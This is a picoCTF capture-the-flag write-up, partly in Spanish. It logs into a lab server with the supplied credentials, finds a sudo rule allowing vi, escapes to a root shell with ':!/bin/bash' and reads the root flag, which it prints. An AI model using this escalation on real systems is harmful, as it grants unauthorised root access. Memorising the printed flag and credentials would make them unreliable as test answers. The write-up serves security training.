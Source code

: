 ## Objetivo
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
Can you read files in the root file?The system admin has provisioned an account for you on the main server:`ssh -p 58782 picoplayer@saturn.picoctf.net`Password: `33qE7mB5BF`Can you login and read the root file?
## Solución
```bash
armandopc-picoctf@webshell:~$ ssh -p 58782 picoplayer@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:58782 ([13.59.203.175]:58782)' can't be established.
ED25519 key fingerprint is SHA256:HKm/Bw1C+mhj23vO8tXULrgLFYvzP6gQH2IwgUiQTok.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:10: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:58782' (ED25519) to the list of known hosts.
picoplayer@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
 
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi test
~                                                                                                                  
~                                                                                                                  
~                                                                                                                  
~                                                                                                                  
~                                                                                                                  
:!/bin/bash
root@challenge:/home/picoplayer# whoami
root  
root@challenge:/home/picoplayer# cd /root/
root@challenge:~# ls -la
total 12
drwx------ 1 root root   23 Aug  4  2023 .
drwxr-xr-x 1 root root   51 Sep 12 00:27 ..
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4  2023 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
root@challenge:~# cat .flag.txt 
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
root@challenge:~# 
```

## Notas Adicionales
sudo -l - Muestra una lista con todos los privilegios de tu usuario actual
sudo vi test - Se puede utilizar para salir de entornos restringidos mediante la creación de un shell de sistema interactivo
 :!/bin/bash - indicar} la ruta completa del intérprete de órdenes, para que se pueda ser localizado sea donde sea donde se ejecute el script
## Referencias